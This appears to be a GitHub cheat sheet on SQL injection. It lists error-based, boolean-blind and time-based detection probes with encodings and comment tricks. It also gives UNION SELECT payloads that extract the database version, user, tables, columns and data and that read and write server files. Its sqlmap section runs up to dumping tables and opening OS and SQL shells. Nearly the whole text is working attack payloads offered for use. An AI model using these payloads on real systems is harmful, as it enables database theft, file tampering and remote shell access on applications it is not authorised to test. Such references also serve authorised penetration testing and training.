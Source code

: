 # SQL injection

The SQL injection is one of the most common code injection technique that aims at getting access to the database. It's possible by improper handling of user input by the application. 

Related to: <br />
-Language: SQL <br />
-Platform: Any (requires interaction with a SQL database) <br />

Types of SQL injection: <br />
1) Error based <br />
2) Boolean based blind <br />
3) Time based blind <br />

Toolset: Burp Suite, SQL Map. <br />

Detection
-----------------------------------------------------------------------------

Detection of Error based SQL injection:
```
'
"
#
;
)
```
Encoding:
```
%27
%22
%23
%3B
```
Multiple encoding:
```
%%2727
%%2222
%%2323
%%3B3B
```
Detection of Boolean based blind SQL injection:<br />
TRUE statements:
```
aNd 1=1
aNd 21=21
anD 1=1;//
orDeR bY 1
```
FALSE statements:
```
dNd 0=1
anD 9=2
anD 57=276;//
ordEr bY 1000000000000
```
Characters to use instead of spaces:
```
+ 
/**/
%20
```
Comments to end the queries:
```
/*
//
#
%23
--
```

Detection of Time based blind:
```
aNd sleep
SLEEP(15)
BENCHMARK(100000000, rand())
WAIT FOR DELAY '00:00:15'
WAIT FOR TIME '00:00:15'
```


Exploitation
-----------------------------------------------------------------------------

General select syntax:
```
UniOn selEct [number of columns] [comment]
```

Example: Assume that there are 2 columns and column 2 can be used to display data on screen.
```
Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
```

SQL Map
-----------------------------------------------------------------------------

```
sqlmap -u [url] --- scan the provided url

sqlmap -u [url] —-dbs --- show the databases 

sqlmap -u “url” —-tables -D [database name] --- show all tables from [database name]

sqlmap -u “url” —-columns -T [table name] -D [database name] --- show all columns from [table name] in [database name]

sqlmap -u “url” -T [table name] -D [database name] —-dump --- show all data from [table name] in [database name]

sqlmap -u “url” —-os-shell --- OS shell 

sqlmap -u “url” —-sql-shell --- SQL shell
```
